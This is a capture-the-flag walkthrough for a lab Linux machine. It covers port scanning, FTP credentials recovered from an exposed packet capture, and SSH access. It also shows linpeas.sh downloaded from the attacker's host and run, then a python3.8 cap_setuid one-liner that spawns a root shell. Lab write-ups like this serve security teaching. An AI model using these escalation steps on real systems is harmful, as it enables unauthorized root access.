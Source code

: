 # Machine Info
**IP**: 10.10.10.245

**OS**: Linux

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 00:46 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
### **Advanced scan**
```
$ sudo nmap -T4 -p22,53,80 -A -O 10.129.126.40                                                                                                                     1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-13 23:49 EDT
Nmap scan report for 10.129.126.40
Host is up (0.071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   53.50 ms 10.10.16.1
2   25.96 ms 10.129.126.40
```
## **Enumerating HTTP**
The website is a dashboard with 3 options: IP Config, Network Status, and Security Snapshot.

![Dashboard](./website.png "Dashboard")

Of the three, the one we will focus on is the snapshot. This provides us with a 5 second snapshot of the network packets that were captured by the machine. However, the snapshot does not contain any data and all counts are 0.

![Snapshot1](./snapshot_1.png "Snapshot1")

As we can see, the option redirects us to the URL, http://10.10.10.245/data/1, and fuzzing the URL we find that for "/data/0" we get some values. Downloading the data and opening it with Wireshark, we find FTP packets with the credentials for user "nathan".

![user-password](./pcap_password.png "User password")

Now, we can connect to the target machine using the obtained credentials.

# Exploitation
## **Connecting to SSH**
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 15 03:10:52 UTC 2021

  System load:           0.0
  Usage of /:            34.8% of 8.73GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a161

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation




The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ whoami
nathan
```
# Enumeration II
The user "nathan" does not have privilege to run any commands as sudo. So, I copied over the linPEAS script to check for privilege escalation vectors.

```
nathan@cap:~$ wget 10.10.16.173/linpeas.sh
--2021-06-15 03:16:47--  http://10.10.16.173/linpeas.sh
Connecting to 10.10.16.173:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 342868 (335K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[=====================================================================================>] 334.83K   938KB/s    in 0.4s    

2021-06-15 03:16:47 (938 KB/s) - ‘linpeas.sh’ saved [342868/342868]

nathan@cap:~$ ls
linpeas.sh  user.txt
nathan@cap:~$ chmod +x linpeas.sh 
nathan@cap:~$ ./linpeas.sh 
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...
```
We can also manually search for files with capabilities as below.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The hacktricks entry for capabilities mentions that capabilities allow processes to run with elevated privileges but not the full set of privilege. So, any program that has the ability to call setUID() can be used to elevate our privilege.

# Privilege Escalation
Enumeration identified python3.8 to have the capability to set the UID and using it to spawn a shell achieves our goal.
```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

# Post-Exploitation
## **User Flag**
```
nathan@cap:~$ cat user.txt 
fc****************************64
```
## **Root Flag**
```
root@cap:/root# cat root.txt 
f2****************************2a
```
